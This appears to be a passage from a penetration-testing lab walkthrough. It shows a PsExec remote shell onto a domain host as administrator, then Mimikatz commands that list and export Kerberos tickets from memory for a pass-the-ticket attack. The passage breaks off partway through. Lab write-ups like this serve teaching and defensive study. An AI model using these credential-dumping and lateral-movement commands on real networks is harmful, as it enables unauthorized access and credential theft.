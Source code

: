 
we are still in local machine

	C:\Windows\system32>hostname
	loki

if we want a remote shell we can use psexec.exe


	C:\Windows\system32>cd C:\Users\mrblack\Desktop\PSTools

	C:\Users\mrblack\Desktop\PSTools>PsExec.exe \\odin cmd.exe

	PsExec v2.34 - Execute processes remotely
	Copyright (C) 2001-2021 Mark Russinovich
	Sysinternals - www.sysinternals.com
	Microsoft Windows [Version 6.3.9600](c) 2013 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	valhalla\administrator

	C:\Windows\system32>hostname
	odin

	C:\Windows\system32>ipconfig

	Windows IP Configuration


	Ethernet adapter Ethernet0:

	   Connection-specific DNS Suffix  . :
	   Link-local IPv6 Address . . . . . : fe80::d130:77d8:36c:afe%12
	   IPv4 Address. . . . . . . . . . . : 192.168.200.100
	   Subnet Mask . . . . . . . . . . . : 255.255.255.0
	   Default Gateway . . . . . . . . . :

	Tunnel adapter isatap.{82B0F91C-D6B0-48AA-935A-1CCE190951A5}:

	   Media State . . . . . . . . . . . : Media disconnected
	   Connection-specific DNS Suffix  . :


# Pass the Ticket

firstly administrator should RDP to remote host so TGT will be stored inside memory

Check for Ticket Granting Ticket inside memory

	sekurlsa::tickets
	

![image](https://user-images.githubusercontent.com/13157446/130322640-4a7ede43-c670-4c46-8495-ac120415c3e2.png)

	
Export tickets

	Sekurlsa::tickets /export


inject TGT the memory and open cmd
